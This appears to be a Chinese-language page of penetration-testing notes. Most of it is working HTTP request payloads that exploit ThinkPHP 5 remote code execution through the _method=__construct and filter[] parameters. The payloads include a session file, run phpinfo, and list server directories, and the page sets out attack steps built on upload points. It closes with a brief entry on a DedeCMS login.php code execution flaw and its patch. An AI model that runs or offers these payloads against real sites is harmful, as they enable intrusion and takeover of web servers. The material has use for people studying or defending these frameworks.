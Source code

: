 ```angular2html
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

_method=__construct
&method=get
&filter[]=think\__include_file
&get[]=/var/lib/php/session/sess_ThisIsATestaaaaa
&server[]=1
```
## 2，复杂场景php版本小宇7.0.3

```
禁用assert函数时候可使用php7版本的pload

思路1：注册账号，找上传点上传图片
思路2：寻找上传点
思路3：已知路径扫描

以下针对思路2进行拓展：
先通过phpinfo获取网站的路径

POST:?s=captcha
_method=__construct 
&method=get 
&filter[]=phpinfo
&get[]=-1

在列出目录下面项目，一个一个去找日志规则和上传路径

POST:?s=captcha
_method=__construct 
&method=get 
&filter[]=scandir
&filter[]=var_dump
&get[]=/www/wwww/public   目录

```



# dedecms

## V5.7.93 - V5.7.96 代码执行漏洞

- 版本号: Dedecms V5.7.93 - V5.7.96
- 漏洞路径: /dede/login.php
- Description: 代码执行漏洞.
- 补丁: [V5.7.97 UTF-8正式版20220708安全及功能更新补丁](https://www.dedecms.com/package.html?t=1657238400) 
